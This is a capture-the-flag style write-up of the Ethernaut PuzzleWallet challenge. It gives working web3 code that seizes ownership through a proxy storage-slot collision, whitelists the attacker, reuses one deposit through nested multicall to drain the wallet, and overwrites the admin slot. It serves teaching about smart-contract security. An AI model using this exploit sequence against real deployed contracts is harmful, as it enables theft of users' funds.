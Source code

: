 # Claim ownership of contract

To claim ownership and drain the wallet, according to the smart contract logic if we somehow become admin of contract we only need to follow these steps >> become owner of contract >> whitelist ourself >> `deposit` to become eligible to withdraw >> exploit `multicall` to drain contract balance.

The solution will be broken down into these sections: <br/>
A. Become owner of contract <br/>
B. WhiteList ourself <br/>
C. Drain Contract's balance <br/>
D. Become admin of contract

## Section A
This challenge contains 2 contract. 1 is [upgrade proxy](https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies), another 1 is logic contract of PuzzleWallet.

To modify the `owner` to our address, our main target is:
```
function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
```
How can we modify `proposeNewAdmin` to change `owner`?

The contract having a [storage collision](https://coinsbench.com/upgradability-patterns-in-solidity-part-1-13e23ce1f144) between proxy and logic contract. We can put the 2 contract and their respective storage slot side by side for comparison:
| slot | PuzzleProxy - PuzzleWallet |
| -- | ---------- |
| 0 | pendingAdmin - owner |
| 1 | admin - maxBalance |
| ... | ..... |

This contract is vulnerable if we using `delegatecall` to invoke `pendingAdmin`. We can overwrite `owner` variable stored in slot 0. We can encode signature of function call and send transaction to contract to expose `proposeNewAdmin`.
```
functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)

await web3.eth.sendTransaction({from: player, to: instance, data})
```

We are now owner of contract:
```
await contract.owner()
// Output: YOUR_ADDRESS
```
## Section B
To `execute` and withdraw money, we need to check this modifier:
```
modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
```

Which means we need to access this first:
```
function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

```
Since we are owner, we can whitelist by:
```
await contract..addToWhitelist(player)
```
## Section C
To withdraw balance from contract, only method is `execute`. However the contract track our balance by allowing you to withdraw what you deposited only. 

Looking at `multicall`:
```
assembly {
    selector := mload(add(_data, 32))
}
if (selector == this.deposit.selector) {
    require(!depositCalled, "Deposit can only be called once");
    // Protect against reusing msg.value
    depositCalled = true;
}
```
This function is written to batch multiple transactions into one mainly to save gas costs, can we exploit it?

`multicall` extracts function selector (first 4 bytes from signaure) of data and make check the deposit once per transaction.

What if we call multiple `multicall` that each call `deposit` once? So if we deposit `1 eth`, we able to call two times and `balances[player]` would register `2eth` instead.
```
// deposit() method
depositData = await contract.methods["deposit()"].request().then(v => v.data)

// multicall() method with param of deposit function call signature
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
```

Now we call `multicall` taking the variable "multicallData":
```
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```

Now our balance should be double what we deposited. We can `execute` to take out balance and verify the balance:
```
await contract.execute(player, toWei('0.002'), 0x0)

await getBalance(contract.address)
// Output: '0'
```

## Section D
Looking back at storage collision table, we need to access `maxBalance` to overwrite `admin`. 

`maxBalance` can only be modify through this function:
```
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
  require(address(this).balance == 0, "Contract balance is not 0");
  maxBalance = _maxBalance;
}
```
Which requires `balance == 0` thats why this is our final step, we need to drain the wallet before overwritting `admin`. 

Since we've done the pre-requisites at Section C that clears the balance to 0, we can just call `setMaxBalance` to set `maxBalance` to our address:
```
await contract.setMaxBalance(player)
```


